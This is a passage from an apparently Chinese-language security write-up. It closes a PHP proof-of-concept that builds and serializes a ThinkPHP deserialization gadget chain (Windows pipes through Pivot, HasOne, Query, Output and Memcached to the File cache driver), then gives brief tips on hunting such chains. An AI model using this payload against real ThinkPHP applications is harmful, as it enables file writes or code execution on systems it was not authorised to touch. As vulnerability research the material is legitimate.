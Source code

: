 ```php
        }

    }
}

namespace {
    $Memcached = new think\session\driver\Memcached(new \think\cache\driver\File());
    $Output = new think\console\Output($Memcached);
    $model = new think\db\Query($Output);
    $HasOne = new think\model\relation\HasOne($model);
    $window = new think\process\pipes\Windows(new think\model\Pivot($Output,$HasOne));
    echo serialize($window);
    echo base64_encode(serialize($window));
}
```

### 小结

在挖掘这种大型框架的反序列化链子的时候，代码量巨大，我们要在其中寻找：

- 危险函数（回调，读写文件，命令执行等）
- 同名方法（往往可以作为跳板）
- 可控参数（越多越好）

另外有一篇文章总结的挺不错https://xz.aliyun.com/t/8082

